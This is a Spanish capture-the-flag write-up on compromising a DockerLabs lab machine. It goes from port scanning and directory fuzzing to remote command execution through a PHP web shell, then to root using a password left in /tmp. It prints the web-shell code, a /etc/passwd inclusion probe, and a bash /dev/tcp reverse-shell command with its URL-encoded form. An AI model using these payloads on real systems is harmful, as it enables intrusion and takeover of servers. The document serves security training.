









# 🕵️‍♂️ whereismywebshell

> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🔍 Reconocimiento

Como siempre, comenzamos nuestro análisis con un escaneo de puertos usando `nmap`.



En este caso, únicamente vemos abierto el puerto **80**.

Antes de visitar directamente la web, hacemos un **fuzzing** con `gobuster` para descubrir posibles directorios ocultos.



Aparte del típico `index.html`, aparecen dos archivos interesantes: `warning.html` y `shell.php`.

Entramos en `index.html` y, al revisar el código fuente, encontramos algo curioso:

> "guardo un secreto en /tmp"



De momento no podemos hacer mucho con esto, pero lo dejamos apuntado por si nos sirve más adelante.

Después accedemos a `warning.html`, que nos muestra lo siguiente:



Con esta información, podemos deducir que el archivo `shell.php` probablemente contenga algo como:

```php
<?php
system($_GET['cmd']);
?>
```
Si logramos encontrar el parámetro adecuado (en este ejemplo sería cmd), podríamos llegar a ejecutar comandos en el servidor de forma remota.

## 💥 Explotación
Accedemos al ``shell.php``, pero en principio no muestra nada. Para encontrar el parámetro que usa, lanzamos un fuzzing con un diccionario.



¡Perfecto! Descubrimos que el parámetro es: parameter.

Con esto en mano, probamos si es vulnerable a LFI (Local File Inclusion), intentando cargar un archivo del sistema: ``http://172.17.0.2/shell.php?parameter=/etc/passwd``

No obtenemos ningún resultado, así que vamos a probar si es vulnerable a RCE (Remote Command Execution).



¡Bingo! Es vulnerable. Vamos a intentar ejecutar una reverse shell para ganar acceso.

> Una reverse shell es una conexión que se lanza desde la máquina víctima hacia nuestra máquina atacante, permitiéndonos controlar el sistema de forma interactiva.

Nos ponemos en escucha con ``nc -lvnp 3344`` y luego ejecutamos la reverse shell desde el navegador: ``bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"``

> ⚠️ Aunque nuestra IP de atacante sea distinta, en entornos Docker la IP 172.17.0.1 suele pertenecer al host (es decir, al adaptador de red principal del contenedor). Por eso se utiliza esa IP para hacer la conexión de vuelta.

Sin embargo, vemos que no funciona directamente. Esto es porque el carácter & tiene un significado especial en URLs y debe ser encodeado como %26. Lo mismo pasa con > que se encodea como %3E.

La URL correcta sería algo como: ``http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/3344 0>%261"``



Y así obtenemos acceso como el usuario www-data. 

>www-data es el usuario por defecto que utilizan los servidores web como Apache o Nginx para ejecutar scripts. Tiene permisos limitados por seguridad.

## 🚀 Escalada de privilegios

En este punto, estabilizamos la shell (tratamiento de TTY) y nos dirigimos al directorio /tmp, ya que según el código fuente había un secreto allí.

Al inspeccionar vemos un archivo oculto. Usamos cat para visualizar su contenido y parece ser una contraseña... ¡de root!

La introducimos... ¡y efectivamente somos root! 



Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Cómo descubrir endpoints ocultos mediante **fuzzing** (gobuster, ffuf).
- Cómo detectar y explotar una vulnerabilidad de tipo **RCE** en un script PHP mal protegido.
- Cómo realizar una **reverse shell** correctamente en un entorno Docker.
- Qué es el usuario **www-data** y cómo se accede mediante un shell interactivo.
- Cómo aprovechar pistas en el código fuente para encontrar credenciales sensibles.
- Y finalmente, cómo escalar privilegios hasta ser **root** gracias a un archivo olvidado en `/tmp`.
